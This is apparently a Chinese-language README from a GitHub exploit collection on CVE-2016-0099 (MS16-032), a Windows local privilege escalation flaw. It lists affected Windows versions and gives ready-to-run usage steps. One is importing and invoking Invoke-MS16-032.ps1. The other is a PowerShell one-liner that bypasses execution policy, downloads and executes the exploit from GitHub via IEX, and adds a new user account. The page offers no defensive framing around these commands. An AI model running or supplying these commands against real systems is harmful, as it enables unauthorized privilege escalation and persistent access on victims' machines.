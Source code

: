 ### CVE-2016-0099

#### 描述

此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：目标系统需要有2个以上的CPU核心 PowerShell v2.0及更高版本必须正在运行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          |                  |         |        |                    |
| Windows 10          |                  | 1511    |        |                    |
| Windows 7           |                  |         | SP1    | :heavy_check_mark: |
| Windows 8.1         |                  |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  | R2      | SP1    | :heavy_check_mark: |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

> 目标系统需要有2个以上的CPU核心

PS脚本测试，在Windows Server 2008 R2 SP1 x64执行下面命令

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

还能远程添加账户

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF图如下

![6](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win2008_x64_ps.gif?raw=true)

利用exe文件测试通杀x64和x86的所有版本，这边只录制Windows 7 SP1 x64版本的

![7](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win7_x64.gif?raw=true)

